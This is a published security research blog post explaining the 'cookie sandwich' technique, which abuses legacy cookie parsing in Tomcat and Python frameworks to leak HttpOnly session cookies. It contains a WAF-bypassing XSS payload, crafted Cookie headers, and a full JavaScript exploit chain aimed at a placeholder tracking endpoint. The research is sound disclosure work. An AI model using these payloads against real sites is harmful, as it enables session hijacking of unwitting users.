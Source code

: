
Stealing HttpOnly cookies with the cookie sandwich technique

Zakhar Fedotkin

##
#
# https://portswigger.net/research/stealing-httponly-cookies-with-the-cookie-sandwich-technique
#
##

Researcher

@d4d89704243

    Published: 22 January 2025 at 14:45 UTC

    Updated: 23 January 2025 at 10:06 UTC

Cookie sandwich

In this post, I will introduce the "cookie sandwich" technique which lets you bypass the HttpOnly flag on certain servers. This research follows on from Bypassing WAFs with the phantom $Version cookie. Careful readers may have noticed that legacy cookies allow special characters to be included inside the cookie value. In this post, we're going to abuse that.
Cookie sandwich

The cookie sandwich technique manipulates how web servers parse and handle cookies when special characters are used within them. By cleverly placing quotes and legacy cookies, an attacker can cause the server to misinterpret the structure of the cookie header, potentially exposing HttpOnly cookies to client-side scripts.
How It Works:

Because the Chrome browser doesn't support legacy cookies, it lets attackers create a cookie name that starts with a $, like $Version, from JavaScript. Furthermore, quotes can be placed inside any cookie value. The following code demonstrates how to create a cookie sandwich to steal a restricted cookie value:
document.cookie = `$Version=1;`;
document.cookie = `param1="start`;
// any cookies inside the sandwich will be placed into param1 value server-side
document.cookie = `param2=end";`;

The Cookie header in the request/response might appear as:
GET / HTTP/1.1
Cookie: $Version=1; param1="start; sessionId=secret; param2=end"
 =>
HTTP/1.1 200 OK
Set-Cookie: param1="start; sessionId=secret; param2=end";

A little reminder of how Apache Tomcat processes cookie headers:

    The parser handles both RFC6265 and RFC2109 standards, defaulting to legacy parsing logic if a string starts with the special $Version attribute.
    If cookie value starts with double quotes, it will continue reading until the next unescaped double quotes char.
    It will also unescape any character starting with backslash (\).

If the application improperly reflects the param1 cookie in the response or does not have the HttpOnly attribute, the entire cookie string, including any HttpOnly session cookie sent by the browser between param1 and param2 - can be exposed.

Python frameworks support quoted strings by default, eliminating the need for the special $Version attribute. These frameworks also recognize the semicolon as the browser's cookie pair separator, automatically encoding all special characters into a four-character sequence: a forward slash followed by the three-digit octal equivalent of the character. A "cookie sandwich" attack against a Flask application might look like this:
GET / HTTP/1.1
Cookie: param1="start; sessionId=secret; param2=end"
 =>
HTTP/1.1 200 OK
Set-Cookie: param1="start\073 sessionId=secret\073 param2=end";
Real world example

Analytics often employ cookies or URL parameters to monitor user actions, and rarely validate the tracking ID. This makes them a perfect target for the cookie sandwich attack. Typically, when a user first visits a site, the server creates a random string visitorId and stores it in cookies. This visitorId is then shown on the webpage for analytics:
<script>
{"visitorId":"deadbeef"}
</script>

This scenario creates a vulnerability. If an attacker can access the webpage content - perhaps through a CORS request with credentials or an XSS attack on the same origin - they can bypass the HttpOnly cookie flag, exposing sensitive user information.
Stealing an HttpOnly PHPSESSID cookie

In a recent test, I encountered a vulnerable application with a reflected XSS vulnerability on an error page. Here’s how I was able to use it to steal an HttpOnly PHPSESSID cookie. The journey involved bypassing some security controls and leveraging an overlooked tracking domain vulnerability.
Step 1: Identifying the XSS Vulnerability

The vulnerable application reflected certain link and meta attributes without proper escaping. This allowed me to inject JavaScript code, as the server didn’t properly sanitize the user input. While AWS WAF was in place, it could be bypassed due to an unpatched event oncontentvisibilityautostatechange. Thanks to @garethheyes who helped me with that trick:
<link rel="canonical"
oncontentvisibilityautostatechange="alert(1)"
style="content-visibility:auto">
Step 2: Finding the Exposed Cookie Parameter

Once I confirmed that I could run custom JavaScript on the page, my next objective was to locate an HttpOnly cookie associated with the domain. Initially, I didn’t find any directly accessible analytics JavaScript, but I discovered a tracking domain that reflected the session ID parameter in the JSON response body. This tracking endpoint accepted a session parameter in the URL, as shown below:
GET /json?session=ignored HTTP/1.1
Host: tracking.example.com
Origin: https://www.example.com
Referer: https://www.example.com/
Cookie:  session=deadbeef;
HTTP/2 200 OK
Content-Type: application/json;charset=UTF-8
Access-Control-Allow-Origin: https://www.example.com
Access-Control-Allow-Credentials: true

{"session":"deadbeef"}

This website is a great candidate to use in our attack because:

    reflects cookie value in the response body
    allows cross origin request from vulnerable domain

Step 3: Exploiting Cookie Downgrade for Exfiltration

This tracking application had an interesting behaviour: although the session URL query parameter is mandatory, the server overwrites its value with the one from the Cookie header. Since the backend runs on Apache Tomcat, I leveraged the phantom $Version cookie to switch to RFC2109 and execute a cookie sandwich attack. However, one critical challenge remained: controlling the order of cookies in the client's request. For the $Version cookie to be sent first, it must either be created earlier or have a path attribute longer than all other cookies. While we cannot control the creation time of the victim's cookie, we can manipulate the path attribute. In this case, the chosen path was /json.

By using a carefully crafted Cookie header, I could manipulate the order of cookies and exploit the reflection vulnerability to capture the HttpOnly PHPSESSID cookie. Here’s an example of the malicious request I used:

```
GET /json?session=ignored
Host: tracking.example.com
Origin: https://www.example.com
Referer: https://www.example.com/
Cookie: $Version=1; session="deadbeef; PHPSESSID=secret; dummy=qaz"

HTTP/2 200 OK
Content-Type: application/json;charset=UTF-8
Access-Control-Allow-Origin: https://www.example.com
Access-Control-Allow-Credentials: true

{"session":"deadbeef; PHPSESSID=secret; dummy=qaz"}
```


Step 4: Putting It All Together

To summarize, here’s the process of the attack:

    The user visits a page containing the oncontentvisibilityautostatechange XSS payload.
    The injected JavaScript sets cookies $Version=1, session="deadbeef, both cookies have Path value /json to change cookie order.
    Finally the script appends the cookie dummy=qaz".
    The script then makes a CORS request to the tracking application endpoint, which reflects the manipulated PHPSESSID cookie in the JSON response. 



# Final exploit:
```
async function sandwich(target, cookie) {
    // Step 1: Create an iframe with target src and wait for it
    const iframe = document.createElement('iframe');

    const url = new URL(target);
    const domain = url.hostname;
    const path = url.pathname;

    iframe.src = target;
    // Hide the iframe
    iframe.style.display = 'none';
    document.body.appendChild(iframe);
    // Optional: Add your code to check and clean client's cookies if needed
    iframe.onload = async () => {
        // Step 2: Create cookie gadget
        document.cookie = `$Version=1; domain=${domain}; path=${path};`;
        document.cookie = `${cookie}="deadbeef; domain=${domain}; path=${path};`;
        document.cookie = `dummy=qaz"; domain=${domain}; path=/;`;
        // Step 3: Send a fetch request
        try {
            const response = await fetch(`${target}`, {
                credentials: 'include',
            });
            const responseData = await response.text();
            // Step 4: Alert response
            alert(responseData);
        } catch (error) {
            console.error('Error fetching data:', error);
        }
    };
}

setTimeout(sandwich, 100, 'http://example.com/json', 'session');

```
With this method, I could get access to the other user session cookie from the JSON response, leveraging XSS, cookie manipulation, and the tracking application’s vulnerability.
Recommendation

Cookie security is essential for safeguarding web applications against numerous types of attacks. Pay close attention to cookie encoding and parsing behaviours. It's important to comprehend how cookies are processed by the frameworks and browsers you utilise. Note that, by default Apache Tomcat versions 8.5.x, 9.0.x and 10.0.x support the RFC2109.
Want to learn more?

Be sure to check out our previous blog post on bypassing WAFs using the phantom $Version cookie.

For our latest blog posts and security insights, follow us on X (formerly Twitter) and Bluesky, and join the official PortSwigger Discord.

For more in-depth insights, I highly recommend Ankur Sundara’s blog post, Cookie Bugs - Smuggling & Injection.
Cookies
XSS
Zakhar Favourites

Back to all articles
